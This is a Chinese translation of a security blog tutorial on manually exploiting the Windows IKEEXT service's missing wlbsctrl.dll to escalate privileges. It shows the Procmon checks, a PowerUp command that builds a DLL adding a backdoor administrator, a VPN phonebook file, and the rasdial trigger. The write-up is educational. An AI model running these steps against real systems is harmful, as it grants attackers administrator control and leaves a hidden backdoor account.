







# IKEEXT DLL 劫持

> 原文：<https://infosecwriteups.com/ikeext-dll-hijacking-3aefe4dde7f5?source=collection_archive---------0----------------------->

## 手动利用 it 服务

我正在写我的 [windows 权限提升指南](https://medium.com/@sghosh2402/privilege-escalation-in-windows-380bee3a2842)，这时我遇到了 PowerUp 报告的一个潜在的 DLL 劫持漏洞。在互联网上搜索后，我发现这是由于 IKEEXT 服务中的一个漏洞。我将丢失的 DLL `wlbctrl.dll`放在`C:\Temp`中，并尝试重新启动 IKEEXT 服务，但它确实重新启动了，因为我没有足够的权限。我试着使用这个[脚本](https://github.com/itm4n/Ikeext-Privesc)，它成功了。现在我很好奇这个脚本是如何工作的。搜索了一段时间后，我没有找到任何显示如何手动利用这一点的文章，所以我决定就此写一篇文章。


## 背景

windows 程序在启动时会寻找 dll。如果这些 DLL 不存在，则有可能通过在应用程序寻找的位置放置恶意 DLL 来提升权限。

通常，Windows 应用程序会使用预定义的搜索路径来查找 DLL，并且会以特定的顺序检查这些路径。

1.应用程序加载的目录
2。32 位系统目录(C:\Windows\System32)
3。16 位系统目录(C:\Windows\System)
4。Windows 目录(C:\Windows)
5。当前工作目录(CWD)
6。PATH 环境变量中的目录(首先是系统，然后是用户)

## 剥削


上电输出

为了验证这个漏洞确实存在，我使用了来自 Windows Sysinternals 的进程监视器(也称为 Procmon)。我启动了 procmon，并按照下面的方式配置过滤器，只收集相关的数据。所以基本上我们正在做的是搜索结果为 **NAME NOT FOUND** 的进程，文件类型为 **DLL** 并且执行进程的用户为 **SYSTEM。**



现在我们尝试用管理员权限重启 IKEEXT 服务，我们可以看到 svchost.exe 正在尝试寻找`wlbctrl.dll`。但是为什么是 svchost.exe 呢？



来源:[https://posts . specter ops . io/lateral-movement-SCM-and-dll-jacking-primer-d 2f 61 E8 ab 992](https://posts.specterops.io/lateral-movement-scm-and-dll-hijacking-primer-d2f61e8ab992)

我们可以看到 svchost.exe 启动了 IKEEXT 服务，然后查询 wlbsctrl.dll 文件。现在我们已经证实了这个漏洞的存在，我们将利用它。还有一个问题，我们需要系统权限来重启 IKEEXT，但是我们只有用户级权限。在浏览了漏洞之后，我发现它正在使用`rasdial` 连接到一个虚拟 VPN。这将触发 IKEEXT 服务启动，从而执行我们的恶意 DLL。

我们使用 PowerUp 编写了一个恶意的 DLL，它添加了一个具有管理员权限的后门用户。

`Write-HijackDll -DllPath 'C:\Temp\wlbsctrl.dll'`

现在用以下内容创建一个文件`rasphone.pbk`

```
[IKEEXT]
MEDIA=rastapi
Port=VPN2-0
Device=Wan Miniport (IKEv2)
DEVICE=vpn
PhoneNumber=127.0.0.1
```



编写恶意 DLL 并创建 VPN 文件。

我们检查我们的特权，并检查管理员组的成员。



当前用户和管理组成员

使用以下命令使用`rasdial`连接到虚拟 VPN。

```
rasdial IKEEXT test test /PHONEBOOK:rasphone.pbk
```



运行 rasdial 连接到我们的虚拟 VPN

我们可以验证我们的利用是成功的，因为管理员组中有一个 john 用户。



成功开发